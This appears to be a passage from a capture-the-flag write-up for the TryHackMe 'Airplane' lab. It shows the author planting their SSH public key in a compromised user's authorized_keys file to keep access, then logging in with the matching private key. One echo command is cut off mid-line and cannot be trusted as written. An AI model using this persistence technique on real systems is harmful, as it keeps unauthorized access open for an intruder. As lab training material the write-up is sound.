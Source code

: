 # Lateral Movement - Privilege Escalation 

## Permanence setting

We have access to the .ssh folder so let's just echo our key there, first we create a folder :

```bash
hudson@airplane:/home/hudson/.ssh$ touch authorized_keys
hudson@airplane:/home/hudson/.ssh$ ls
authorized_keys
```

Now we copy our public key on our machine :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/.ssh]
└─$ cat id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg mdn0x@mdn0xonKali
```

And we echo in the folder :

```bash
hudson@airplane:/home/hudson/.ssh$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg mdn0x@hudson@airplane:/home/hudson/.ssh$ ls
authorized_keys
hudson@airplane:/home/hudson/.ssh$ cat authorized_keys 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg mdn0x@mdn0xonKali
```

## SSH Hudson

Now we can access on [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) with our private key :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ ssh -i /home/mdn0x/.ssh/id_ed25519 hudson@airplane.thm  
The authenticity of host 'airplane.thm (10.10.12.222)' can't be established.
ED25519 key fingerprint is SHA256:9q23c/CHFWNnqEDK/eQFZ2BSYcCGfCW3+A9hX0ubHj0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'airplane.thm' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Your Hardware Enablement Stack (HWE) is supported until April 2025.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

hudson@airplane:~$ 

```